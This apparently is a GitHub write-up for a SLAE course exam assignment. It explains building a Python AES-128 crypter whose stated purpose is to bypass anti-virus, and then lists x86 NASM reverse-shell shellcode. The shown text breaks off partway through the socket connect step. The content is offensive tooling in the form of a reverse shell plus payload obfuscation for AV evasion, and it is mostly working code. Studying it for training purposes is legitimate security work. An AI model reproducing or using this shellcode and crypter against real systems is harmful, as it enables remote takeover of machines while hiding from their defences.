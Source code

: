 # Custom AES 128 bit Crypter

<p style="text-align: justify;">Today we'll write a simple Crypter and Decrypter in Python using the Fernet library.</p>

<p style="text-align: justify;">Our Crypter will be based on the following components:</p>
- AES in CBC mode with a 128-bit key for encryption; using PKCS7 padding.
- HMAC using SHA256 for authentication.
- Initialization vectors are generated using os.urandom().
- The password will be static, but in every non-test consideration it should never be placed inside the file, but received from the user

------------------------------------------------------------------------------------------------
### Shellcode

<p style="text-align: justify;">We'll use Crypter against shellcode from Assignment No. 2, which means reverse shell written using execve-stack technique. These operations are carried out in order to deceive or bypass anti-virus software or other security systems.</p>

To start with, here is our shellcode in NASM:
```nasm
; Filename: reverse_shell.nasm
; Author:   Jakub Heba
; Purpose:  SLAE Course & Exam

global _start			

; Header Files:
; -------------------------------------------------------------------------------------------------------
; |  Linux Syscall description file path: 		|  /usr/include/i386-linux-gnu/asm/unistd_32.h  |
; |  Linux Socketcall numbers:				|  /usr/include/linux/net.h			|
; |  Linux IP Protocols Declarations:			|  /usr/include/netinet/in.h			|
; |  Linux System-specific socket constants and types:	|  /usr/include/i386-linux-gnu/bits/socket.h	|
; -------------------------------------------------------------------------------------------------------

section .text
_start:

cleaning:
	; cleaning all registers for further usage
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
sys_socket:	
	mov al, 102 		; syscall - socketcall
	mov bl, 1		; socketcall type - sys_socket
	xor esi, esi		
	push esi		; IPPROTO_IP = 0 (null)
	push 1			; SOCK_STREAM = 1
	push 2			; AF_INET = 2 (PF_INET)
	mov ecx, esp 		; directing the stack pointer to sys_socket() function arguments
	int 128			; syscall execution
	mov edx, eax		; saving the reverse_socket pointer for further usage
sys_connect:
	mov al, 102		; syscall - socketcall
	mov bl, 3		; socketcall type - sys_connect
	push esi		; pushing 0 (null)
	mov ecx, 0x06050584	; moving the 127.0.0.1 address into ECX (reverse order, becouse of nulls, we have to add value 5 in every place...
```